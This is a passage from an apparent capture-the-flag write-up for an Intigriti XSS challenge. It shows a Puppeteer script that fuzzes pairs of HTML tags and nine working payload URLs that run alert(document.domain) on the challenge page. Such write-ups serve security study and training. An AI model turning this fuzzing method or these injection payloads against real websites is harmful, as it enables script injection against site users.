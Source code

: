 ```js
      queue.add(async () => {
        const page = await browser.newPage();
        
        page.on("dialog", async (dialog) => {
          console.log(`dialog`, page.url());
          await dialog.dismiss();
        });
        
        // const tag1 = `select`;
        // const tag2 = `option`;
        process.stdout.write(`[${++run}/${tags.length*tags.length}] trying ${tag1}->${tag2}            \r`);
        const url = `http://127.0.0.1:3000/?html=%3C/h1%3E%3C/div%3E%3C${tag1}%20id=%22intigriti%22%3E%3C${tag2}%3E//%20%3C/${tag2}%3E&xss=%0aalert(document.domain)`;

        await page.goto(url);
        await sleep(20);
        await page.close();
      });
    }
  }

})();
```

Since that is not quite performant, fuzzing through the ~23000 combinations takes a while. I though there would be more results coming out, but in total I found 9 combinations of two HTML elements leading to XSS:

- select->optgroup: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%20id=%22intigriti%22%3E%3Coptgroup%3E//%20%3C/optgroup%3E&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%20id=%22intigriti%22%3E%3Coptgroup%3E//%20%3C/optgroup%3E&xss=%0aalert(document.domain))
- select->option: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%20id=%22intigriti%22%3E%3Coption%3E//%20%3C/option%3E&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%20id=%22intigriti%22%3E%3Coption%3E//%20%3C/option%3E&xss=%0aalert(document.domain))
- select->script: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%20id=%22intigriti%22%3E%3Cscript%3E//%20%3C/script%3E&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%20id=%22intigriti%22%3E%3Cscript%3E//%20%3C/script%3E&xss=%0aalert(document.domain))
- select->template: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%20id=%22intigriti%22%3E%3Ctemplate%3E//%20%3C/template%3E&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%20id=%22intigriti%22%3E%3Ctemplate%3E//%20%3C/template%3E&xss=%0aalert(document.domain))
- table->caption: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Ccaption%3E//%20%3C/caption%3E&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Ccaption%3E//%20%3C/caption%3E&xss=%0aalert(document.domain))
- table->script: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Cscript%3E//%20%3C/script%3E&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Cscript%3E//%20%3C/script%3E&xss=%0aalert(document.domain))
- table->style: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Cstyle%3E//%20%3C/style%3E&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Cstyle%3E//%20%3C/style%3E&xss=%0aalert(document.domain))
- table->template: https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Ctemplate%3E//%20%3C/template%3E&xss=%0aalert(document.domain)
- table->tr: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Ctr%3E//%20%3C/tr%3E&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ctable%20id=%22intigriti%22%3E%3Ctr%3E//%20%3C/tr%3E&xss=%0aalert(document.domain))
